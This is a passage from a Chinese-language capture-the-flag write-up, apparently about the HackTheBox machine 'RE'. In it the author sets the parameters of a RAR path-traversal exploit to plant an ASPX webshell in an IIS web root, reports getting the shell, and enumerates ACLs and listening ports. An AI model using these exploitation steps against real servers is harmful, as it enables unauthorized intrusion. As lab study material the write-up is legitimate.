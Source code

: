 
回想起有web服务，找一下web的路径看看，发现当前用户是没权限访问，那么cam有可能可以吗？

```
Directory: C:inetpubwwwroot


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/1/2020   6:54 PM                blog
d-----        3/27/2019   2:10 PM                ip
d-----        6/18/2019  10:18 PM                re

C:inetpubwwwrootblog
Access is denied.

```

网上找一个aspx大马，修改一下生成rar的exp

```
# The archive filename you want
rar_filename = "test.rar"
# The evil file you want to runkira
evil_filename = "kira.aspx"
# The decompression path you want, such shown below
target_filename = r"C:C:C:../../../../../../../inetpub/wwwroot/blog/kira.aspx"
```

成功获取到一个webshell！

[![](./img/197816/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01a3fe3e6564cee851.png)

分别把webshell写到`ip`和`re`目录，发现有跟`blog`不同的用户权限，其中`iis apppoolre`可以打开根目录`proj_drop`

```
PS C:&gt; get-acl proj_drop|format-list

Path   : Microsoft.PowerShell.CoreFileSystem::C:proj_drop
Owner  : BUILTINAdministrators
Group  : RENone
Access : CREATOR OWNER Allow  FullControl
         NT AUTHORITYSYSTEM Allow  FullControl
         BUILTINAdministrators Allow  FullControl
         REcoby Allow  Modify, Synchronize
         REcam Allow  FullControl
         IIS APPPOOLre Allow  ReadAndExecute, Synchronize
         IIS APPPOOLre Allow  Write, Synchronize
```

`proj_drop`这个目录比较可疑，放文件进去同样会消失，有可能延续之前的套路，在里面放入合适的文件，触发特定的漏洞，重新查看题目的博客，看看是否有提示。

[![](./img/197816/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0111496b8107c46f4a.png)

简单看了一下，作者自己都未能成功利用漏洞，而且环境中并没有发现开放18001端口，（作者有疑似利用题目收exp的嫌疑[震惊]），需要寻找其他思路。

```
Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       816
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       448
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       960
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       312
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1656
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       584
```